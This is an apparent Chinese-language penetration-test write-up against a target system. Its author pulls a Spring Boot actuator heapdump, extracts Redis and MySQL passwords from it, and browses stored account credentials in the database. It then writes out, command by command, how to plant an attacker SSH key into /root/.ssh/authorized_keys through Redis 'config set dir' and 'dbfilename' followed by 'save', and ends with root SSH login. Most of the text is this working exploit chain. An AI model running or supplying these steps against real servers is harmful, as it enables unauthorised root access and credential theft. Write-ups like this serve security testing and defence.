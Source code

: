   
依旧是靶标下某个目录发现actuator文件，直接下载heapdump  
  
发现存在redis、mysql口令：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/CsyjOZ96XiaeOrBdlRibkRPicP7hv6bxASj4F5ytEFhqVqBPmEE1PvoqYeEFTVoFQ6OOFLDxxudiaIQuaiaTTvAr31A/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/CsyjOZ96XiaeOrBdlRibkRPicP7hv6bxASj7NqichzUTHKeUGTsgAlsuzA9HrZXHd5hzfNoYyVKsBQW3rweIMZDLTw/640?wx_fmt=png&from=appmsg "")  
  
  
连接  
mysql数据库发现各类账号密码  
,对拿权限没用就没看  
:  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/CsyjOZ96XiaeOrBdlRibkRPicP7hv6bxASj18ElJQhSB2xE5JSun7yrzwiaibeqjAuAvKfPUn8lsSE8Ozia4lJX2VhDA/640?wx_fmt=png&from=appmsg "")  
  
尝试  
redis写公钥：  
  
1.启动  
vps：  
```
ssh-keygen -t rsa
cd /root/.ssh/
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/CsyjOZ96XiaeOrBdlRibkRPicP7hv6bxASj2DLibNq3bDQpEIYWU6gtBbfxhsuDhLdSObiaXzcDib5SwA2sfxvdUav9g/640?wx_fmt=png&from=appmsg "")  
  
  
将公钥写入  
txt：  
```
(echo -e "\n\n"; cat id_rsa.pub;echo -e "\n\n") > key.txt
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/CsyjOZ96XiaeOrBdlRibkRPicP7hv6bxASjV4WZe7bqDG4mib4uZd7ufFaoE6RpicYibVQkXBkpyJd0icPeJBVYicxhw9Q/640?wx_fmt=png&from=appmsg "")  
```
cat key.txt | redis-cli -h 666 --pass 666 -x set xx
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/CsyjOZ96XiaeOrBdlRibkRPicP7hv6bxASjb5ZuWKU8ZADKoqpicEy3KxVD7KEC5VpzF6Bwwicnibav7pDohK0YkGqMA/640?wx_fmt=png&from=appmsg "")  
  
检验是否成功：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/CsyjOZ96XiaeOrBdlRibkRPicP7hv6bxASjalGWict68He5ZltcOK9eGLB6nVKNrAoP9l3nLYqZbRBTlH0y5S3q3Ow/640?wx_fmt=png&from=appmsg "")  
  
```
config set dir /root/.ssh
config set dbfilename authorized_keys
save
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/CsyjOZ96XiaeOrBdlRibkRPicP7hv6bxASjicHrBOmjc86zpjicFBJkxia2CPazrlxnzQib0NeIX1nKfBxibll66hr7cUg/640?wx_fmt=png&from=appmsg "")  
```
ssh -i id_rsa root@6660
```  
  